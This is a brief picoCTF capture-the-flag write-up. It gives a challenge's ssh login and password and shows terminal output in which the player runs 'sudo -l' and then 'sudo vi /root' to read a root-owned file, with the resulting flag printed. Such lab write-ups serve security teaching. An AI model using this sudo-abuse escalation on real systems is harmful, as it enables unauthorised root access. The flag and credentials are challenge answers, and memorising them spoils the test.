 #### Description

Can you read files in the root file?Additional details will be available after launching your challenge instance.

````
Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 49702 picoplayer@saturn.picoctf.net`Password: `33qE7mB5BF`Can you login and read the root file?
`````



````
```
picoplayer@challenge:/$ sudo -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
picoplayer@challenge:/$ sudo vi /root

picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
```